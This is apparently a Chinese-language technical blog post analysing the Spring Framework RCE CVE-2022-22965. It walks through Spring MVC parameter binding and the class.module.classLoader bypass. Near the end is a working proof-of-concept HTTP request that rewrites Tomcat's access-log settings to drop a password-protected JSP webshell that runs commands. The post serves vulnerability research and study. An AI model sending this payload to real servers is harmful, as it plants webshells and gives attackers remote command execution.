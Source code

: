 ```yaml
---
title: "Spring Framwork RCE分析"
date: 2022-04-15T10:56:52+08:00
draft: true
image: https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/202204151059216.png
description: 
comments: true
license: false
math: false
categories:
- note
tags:
- Spring
- Java
---
```


## Spring Framwork RCE分析

最近出的CVE-2022-22965其实是CVE-2010-1622的绕过，大致原理是Spring MVC在参数绑定时，会将用户传入的参数注入到pojo对象中，因为在数据绑定的过程中能获取到classLoader，导致用户可以通过classLoader修改Tomcat的配置属性来执行危险操作

### 影响版本

Spring Framework

- 5.3.0 to 5.3.17
- 5.2.0 to 5.2.19
- 其他一些老旧的不受支持的版本



### Spring MVC 参数绑定流程

我们首先创建一个用户类

```
public class User {
    private String id;
    private String name;
    ......补充其 get set toString 方法
}
```

直接在参数中写上对应 User 类型就可以了

```
@RequestMapping("objectType.do")
@ResponseBody
public String objectType(User user) {
    return user.toString();
}
```

访问`http://localhost:8080/objectType.do?id=001&name=Steven`

返回结果：`User{uid='001', name='Steven'}`

详细可看：[SpringMVC参数绑定入门就这一篇](https://segmentfault.com/a/1190000022586808)

下面是代码层面：

`DispatcherServlet`是 SpringMVC 工作流程的中心，用户请求经过`Filter`和`Interceptor`之后会被`DispatcherServlet`分配到具体的`Controller`，具体是在dodispatch方法里：

![image-20220414175620272](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/202204151046343.png)

在doDispatch方法里面，获取处理器适配器再调用后端处理器中的方法：

![image-20220414180105645](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/202204151046460.png)

适配器调用后端处理器时候会调用`ModelAttributeMethodProcessor#resolveArgument`来处理请求参数，`resolveArgument`具体是调用`this.bindRequestParameters`：

![image-20220414180227761](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/202204151046388.png)

`bindRequestParameters`调用`ServletRequestDataBinder#bind`：

![image-20220414203347627](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/202204151046198.png)

下边会走到`DataBinder#doBind`，这里调用`DataBinder#applyPropertyValues`，断点处的`this.getPropertyAccessor()`获得的是一个`BeanWrapperlmpl`对象，接下来就会走到`org.springframework.beans`里面：

![image-20220414175006099](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/202204151046172.png)

`BeanWrapperlmpl`继承了`org.springframework.beans.AbstractPropertyAccessor`

`BeanWrapperImpl`具体实现了创建，持有以及修改bean的方法。
其中的`setPropertyValue`方法可以将参数值注入到指定bean的相关属性中(包括list,map等)，同时也可以嵌套设置属性。

这里调用了`setPropertyValues`方法遍历`propertyValue`，并循环调用`setPropertyValue`方法设置属性值：

![image-20220414175129097](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/202204151046195.png)



经过剩下的一系列调用，最终会走到`org.springframework.beans.BeanWrapperImpl.BeanPropertyHandler#setValue`

这里先去获取目标bean的setter，再反射调用：

![image-20220414194956957](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/202204151046291.png)

这样就实现了Request参数和bean属性的绑定



### 漏洞原理

在上一部分遍历`propertyValue`并循环调用`setPropertyValue`方法设置属性值的时候，在设置之前有一个获得对应的类中参数操作`tokens=xxx`，具体是在`getPropertyAccessorForPropertyPath`里面获取的：

![image-20220414203807497](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/202204151046284.png)

这个方法会递归获取参数值，循环查看参数中是否包含`[`、`]`、`.`若存在则按分割赋值给`nestedProperty`，再调用`getNestedPropertyAccessor`方法：

![image-20220414205520668](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/202204151047675.png)

在`getNestedPropertyAccessor`方法里面会去获取缓存内省的结果`cachedIntrospectionResults`：

![image-20220414211225039](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/202204151047987.png)

这个方法会调用`getBeanInfo`进而调用`java.beans.Introspector#getBeanInfo`去获取Bean的信息：（即Java内省）

![image-20220414213621130](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/202204151047880.png)

这里就不得不说内省了：

> 内省(Introspector) 是Java 语言对 JavaBean 类属性、事件的一种缺省处理方法。其中的`propertiesDescriptor`实际上来自于对Method的解析。

意思就是，**只要有 getter/setter 方法中的其中一个，那么 Java 的内省机制就会认为存在一个属性**

Java Beans API的Introspector类提供了两种方法来获取类的bean信息：

```
BeanInfo getBeanInfo(Class<?> beanClass)
BeanInfo getBeanInfo(Class<?> beanClass, Class<?> stopClass)
```

这里就出现了一个使用时可能出现问题的地方：**如何没有传入`stopClass`，这样会使得访问该类的同时访问到`Object.class`**。

因为在java中所有的对象都会默认继承Object基础类而存在一个`getClass()`方法，所以会找到class属性。

如果我们更进一步：`Introspector.getBeanInfo(Class.class)`，那么就可以获取到**classLoader**。

与此相照应的，上图箭头处是CVE-2010-1622的修复，如果获取到`class.classLoader`就直接结束本次循环（不把本次结果存入`this.propertyDescriptors`）

最新的CVE-2022-22965用的是`class.module.classLoader`(jdk9+的Class对象增加了一个Module类的属性)，利用`module.getclassloader != class.classloader`绕过了这个限制。

拿到clasLoader之后和[Struts2 S2-020在Tomcat 8下的命令执行](https://cloud.tencent.com/developer/article/1035297)原理大致相同，也就是可以修改Tomcat的配置，造成任意文件写入。

### PoC

```http
GET /spring4shell/?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: localhost:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


```

执行之后可以在`webapps/ROOT/tomcatwar.jsp`看到写入的Webshell。

>  注意：如果使用IDEA运行配置起的Tomcat的话，因为是映射的目录，所以Tomcat下面并不会有webshell，而是在IDEA的某个目录下，可以用everything搜索下

### Reference

https://blog.csdn.net/god_zzZ/article/details/124029497

https://cloud.tencent.com/developer/article/1035297

http://rui0.cn/archives/1158

https://vulhub.org/#/environments/spring/CVE-2022-22965/

https://segmentfault.com/a/1190000022586808
